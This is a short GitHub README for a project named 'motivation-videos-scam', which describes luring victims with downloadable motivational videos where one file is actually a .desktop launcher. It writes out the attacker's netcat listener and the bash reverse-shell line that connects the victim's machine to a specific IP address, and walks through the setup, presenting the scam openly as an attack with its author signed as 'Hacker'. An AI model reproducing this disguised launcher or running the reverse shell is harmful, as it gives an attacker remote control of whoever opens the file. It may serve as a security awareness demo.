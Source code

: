 # motivation-videos-scam
Scam attack that uses motivation videos to attract victims

## Getting started
- Clone the [repository](https://github.com/PatrickNiyogitare28/motivation-videos-scam.git) 
- navigate to directory `motivation-videos-scam/videos`
- run `movitivation-video-0.mp4` (no effects)
- run `movitivation-video-1.desktop` (victim is hacked)

### How the scam works
- The hacker opens up a vpn port at `82.165.97.169` for the victim to connect via port 1350 
```bash
   $ nc -lnvp 1350 -s 82.165.97.169
```

 The victim downloads the motivation videos expecting to watch all the motivation videos.

 When the victim opens up the `motivation-video-1.desktop` accidentally or not accidentally the `.desktop` file will run a bash script which connects
 to vpn and the victim is hacked.

 The script to run in background is 
 ```bash
 $ /bin/bash -i > /dev/tcp/82.165.97.169/1350 0<&1 2>&1
 ```

 ### Hacker
 patrickniyogitare28@gmail.com

 ### LICENSE
 [MIT](https://github.com/PatrickNiyogitare28/motivation-videos-scam/blob/master/LICENSE)

